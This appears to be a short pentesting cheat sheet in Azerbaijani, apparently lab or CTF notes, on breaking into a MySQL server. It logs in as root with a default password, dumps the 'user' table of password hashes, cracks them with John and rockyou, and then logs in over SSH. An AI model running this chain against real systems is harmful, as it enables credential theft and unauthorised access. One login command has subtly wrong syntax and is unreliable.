 # nmap scani atiriq default port 3306 mysql portudur (deyisdirile biler ) amma budur 
# eger user root parol passwordd'dirsa
     mysql -u root  -h $ip  -p password
   # istifade edilecek toollar 
    evveline "system"   sonuna ise ( " ; " ) qoyulur ( " ; " deyilisi noqte,vergul)
  ## data bases baxmaq ucun 
     show databases;
#
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
#
    use mysql;
      show table
 #
 +---------------------------+
| Tables_in_mysql           |
+---------------------------+
| columns_priv              |
| db                        |
| engine_cost               |
| event                     |
| func                      |
| general_log               |
| gtid_executed             |
| help_category             |
| help_keyword              |
| help_relation             |
| help_topic                |
| innodb_index_stats        |
| innodb_table_stats        |
| ndb_binlog_index          |
| plugin                    |
| proc                      |
| procs_priv                |
| proxies_priv              |
| server_cost               |
| servers                   |
| slave_master_info         |
| slave_relay_log_info      |
| slave_worker_info         |
| slow_log                  |
| tables_priv               |
| time_zone                 |
| time_zone_leap_second     |
| time_zone_name            |
| time_zone_transition      |
| time_zone_transition_type |
| user                      |
+---------------------------+
#
## bir table icerisindeki melumatlarin hamisina baxmaq ucun istifade edeceyik (sql injection rast geleceyik)
## example
     select  * from user \G;
   ## userin hashini goturdukden sonra john ile runlayib parolu tapiriq 
       
        john hash --wordlist=/usr/share/wordlists/rockyou.txt 

   # userin adini ve parolu john ile qirdiqdan sonra ssh ile usere daxil oluruq     
        
